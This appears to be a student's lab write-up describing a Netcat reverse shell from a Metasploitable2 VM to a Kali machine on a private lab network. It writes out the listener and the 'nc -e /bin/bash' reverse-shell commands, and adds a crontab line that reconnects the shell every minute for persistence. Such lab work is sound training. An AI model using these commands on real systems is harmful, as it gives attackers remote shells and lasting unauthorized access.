 ## Lab07 – Netcat Reverse Shell & Crontab Persistence
## Description
In this lab, we achieved a reverse shell from Metasploitable2 to Kali Linux using Netcat and then maintained persistent access via crontab. This technique demonstrates a real-world post-exploitation scenario where the attacker regains access even after system reboots.

## Target System
OS: Metasploitable2

IP: 192.168.56.101

Attacker (Kali) IP: 192.168.56.102

## Exploitation Steps
🔹 Step 1: Start a Netcat listener on the attacker (Kali) machine
bash
Copy
Edit
nc -lvnp 4444
🔹 Step 2: Execute a reverse shell on the victim (Metasploitable2)
bash
Copy
Edit
nc -e /bin/bash 192.168.56.102 4444
Note: nohup was not available in the system, so raw Netcat reverse shell was used.

🔹 Step 3: Verify shell access on Kali
Once connected:

bash
Copy
Edit
whoami
hostid
ip a
## Persistence via Crontab
🔹 Step 4: Edit crontab on Metasploitable2
bash
Copy
Edit
crontab -e
🔹 Step 5: Add the following line to create a persistent reverse shell every minute:
bash
Copy
Edit
* * * * * nc -e /bin/bash 192.168.56.102 4444
## Screenshots (click to view)
Upload the following to GitHub and link them with ![](url) markdown syntax

Netcat listener setup

Reverse shell received

Command outputs (whoami, hostid, ip a)

Crontab modification screen

Reconnected shell via crontab

🧠 What I Learned
How reverse shells work with Netcat (nc -e /bin/bash)

The concept of incoming vs outgoing connections and attacker-listener logic

How to maintain persistence via scheduled tasks (cron jobs)

Basic Linux post-exploitation persistence methods

Importance of avoiding common detection (e.g., disabling nohup makes attackers try fallback methods)

